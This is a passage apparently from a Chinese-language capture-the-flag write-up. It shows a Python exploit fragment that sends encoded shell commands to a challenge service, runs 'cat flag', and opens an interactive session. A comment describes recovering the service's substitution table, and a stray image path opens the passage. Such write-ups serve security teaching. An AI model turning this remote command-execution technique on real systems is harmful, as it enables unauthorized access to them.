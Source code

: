 ```
# p.recv()

def sh_cmd(cmd):
	send_payload(encode(p32(len(cmd))))
	send_payload(encode(cmd))
	p.recv()

# sh_cmd('ls')
sh_cmd('cat flag')

'''
第二阶段工作

rand table:
x0 x1 x2 x3  x4 x5 x6 x7  x8 x9 xA xB  xC xD xE xF

x0=0x0A

y0=rand_table[x0]

根据开始进入的时候发过来的编码过的密码表和附加数据，逆推出密码表
'''

p.interactive()
```

所有函数和变量我都已经重新命名：
